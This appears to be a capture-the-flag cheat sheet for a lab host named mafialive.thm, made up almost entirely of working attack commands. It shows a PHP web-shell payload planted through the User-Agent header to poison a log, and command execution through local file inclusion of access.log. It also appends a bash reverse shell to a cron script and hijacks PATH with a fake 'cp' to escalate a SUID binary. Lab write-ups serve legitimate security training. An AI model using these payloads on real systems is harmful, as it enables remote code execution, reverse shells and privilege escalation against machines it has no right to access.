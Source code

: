 # Log poisoning header  
# User-Agent: <?= system($_GET['cmd']); ?>  

# RCE via LFI to access.log  
curl 'http://mafialive.thm/test.php?view=/var/log/apache2/access.log&cmd=id'  

# Reverse shell (python3 one-liner via cmd=)  

# Cron overwrite  
echo "bash -c 'bash -i >& /dev/tcp/10.9.0.125/443 0>&1'" >> /opt/helloworld.sh  
nc -lvnp 443  

# SUID PATH hijack  
cat > /tmp/cp << 'EOF'  
#!/bin/bash  
bash -c 'bash -i >& /dev/tcp/10.9.0.125/4444 0>&1'  
EOF  
chmod +x /tmp/cp  
~/secret/backup  
nc -lvnp 4444  

---



